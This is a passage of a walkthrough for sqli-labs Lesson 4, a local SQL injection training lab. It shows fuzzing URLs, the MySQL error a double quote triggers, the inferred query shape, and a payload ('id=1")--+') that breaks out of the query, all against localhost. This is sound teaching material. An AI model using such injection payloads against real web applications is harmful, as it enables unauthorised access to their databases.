




#### 4. Lesson 4 - ``GET - Error based - Double Quote - String``

###### Fuzzing

```
http://127.0.0.1/sqli-labs/Less-4/
http://127.0.0.1/sqli-labs/Less-4/?id=1
http://localhost/sqli-labs/Less-4/?id=1'
```







###### Vulnerability Breakdown

```
http://localhost/sqli-labs/Less-4/?id=1"
```



```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"1"") LIMIT 0,1' at line 1
```

```
'"1"") LIMIT 0,1' at line 1
'"1"") LIMIT 0,1'
'   "1"") LIMIT 0,1   '
'   "1"   ") LIMIT 0,1   '
'   "  1"   ") LIMIT 0,1   '
1"
```

```sql
select login_name, password from table where id=("our_input")
```

###### Fix the query

```
http://localhost/sqli-labs/Less-4/?id=1")--+
```

